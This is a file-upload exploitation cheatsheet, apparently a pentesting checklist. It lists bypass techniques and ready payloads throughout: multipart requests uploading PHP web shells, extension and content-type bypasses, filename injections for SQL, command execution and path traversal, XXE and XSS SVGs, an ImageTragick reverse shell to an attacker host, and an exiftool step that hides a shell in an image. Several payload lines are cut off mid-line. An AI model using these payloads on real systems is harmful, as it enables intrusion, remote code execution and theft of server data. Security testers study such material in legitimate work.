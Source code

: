 <h1>File Upload Cheatsheet</h1>
<h2>Where to find</h2>
In upload file feature, for example upload photo profile feature
How to exploit
read also this pdf it conayin a many of ideas
1-https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/File-Upload.pdf
by 0xAwali
2-https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/Slides(1).pdf by ebrahim
hegazy
1. Change the Content-Type value
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
Change the Content-Type
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
2. Try to change the extension when send the request, for example in here you cant upload file with ext
php but you can upload jpg file
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
Change the request to this
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
3. Upload the payload, but start with GIF89a; and
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif
GIF89a; <?php system("id") ?>
And dont forget to change the content-type to image/gif
4. Bypass content length validation, it can be bypassed using small payload
(<?=`$_GET[x]`?>)
5. Using null byte in filename
file.php%00.gif
6. Using double extensions for the uploaded file
file.jpg.php
7. Uploading an unpopular php extensions (php4,php5,php6,phtml)
file.php5
8. Try to randomly capitalizes the file extension
file.pHP5
9. Mix the tips!
Upload Function
Extensions Impact
ASP , ASPX , PHP5 , PHP , PHP3 : Webshell, RCE
SVG : Stored XSS, SSRF, XXE
GIF : Stored XSS, SSRF
CSV : CSV injection
XML : XXE
AVI : LFI, SSRF
HTML , JS : HTML injection, XSS, Open redirect
PNG , JPEG : Pixel flood attack (DoS)
ZIP : RCE via LFI, DoS
PDF , PPTX : SSRF, BLIND XXE
Blacklisting Bypass
PHP → .phtm , phtml , .phps , .pht , .php2 , .php3 , .php4 , .php5 , .shtml , .phar ,
.pgif , .inc
ASP → asp , .aspx , .cer , .asa
Jsp → .jsp , .jspx , .jsw , .jsv , .jspf
Coldfusion → .cfm , .cfml , .cfc , .dbm
Using random capitalization → .pHp , .pHP5 , .PhAr
Whitelisting Bypass
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\x00.jpg this can be done while uploading the file too, name it file.phpD.jpg
and change the D (44) in hex to 00.
file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html
Vulnerabilities
[ ] Directory Traversal
Set filename ../../etc/passwd/logo.png
Set filename ../../../logo.png as it might changed the website logo.
[ ] SQL Injection
Set filename 'sleep(10).jpg .
Set filename sleep(10)-- -.jpg .
[ ] Command Injection
Set filename ; sleep 10;
[ ] SSRF
Abusing the "Upload from URL", if this image is going to be saved in some public site,
you could also indicate a URL from IPlogger and steal information of every visitor.
SSRF Through .svg file.
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.o
[ ] ImageTragic
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0
pop graphic-context
[ ] XXE
Upload using .svg file
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="htt
<text font-size="40" x="0" y="16">&xxe;</text>
</svg>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" w
<image xlink:href="expect://ls"></image>
</svg>
Using excel file
[ ] XSS
Set file name filename="svg onload=alert(document.domain)>" ,
filename="58832_300x300.jpg<svg onload=confirm()>"
Upload using .gif file
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
Upload using .svg file
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DT
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb
<script type="text/javascript">
alert("HolyBugx XSS");
</script>
</svg>
[ ] Open Redirect
a. Upload using .svg file
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='https://attacker.com'"
xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0
</svg>
</code>
Content-ish Bypass
[ ] Content-type validation
Upload file.php and change the Content-type: application/x-php or Content-Type
: application/octet-stream to Content-type: image/png or Content-type: image/gif
or Content-type: image/jpg .
[ ] Content-Length validation
Small PHP Shell
(<?=`$_GET[x]`?>)
[ ] Content Bypass Shell
If they check the Content. Add the text "GIF89a;" before you shell-code. ( Content-
type: image/gif )
GIF89a; <?php system($_GET['cmd']); ?>
Misc
[ ] Uploading file.js & file.config (web.config)
[ ] Pixel flood attack using image
[ ] DoS with a large values name: 1234...99.png
[ ] Zip Slip
If a site accepts .zip file, upload .php and compress it into .zip and upload it.
Now visit, site.com/path?page=zip://path/file.zip%23rce.php
[ ] Image Shell
Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file
mv pic.jpg pic.php.jpg
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
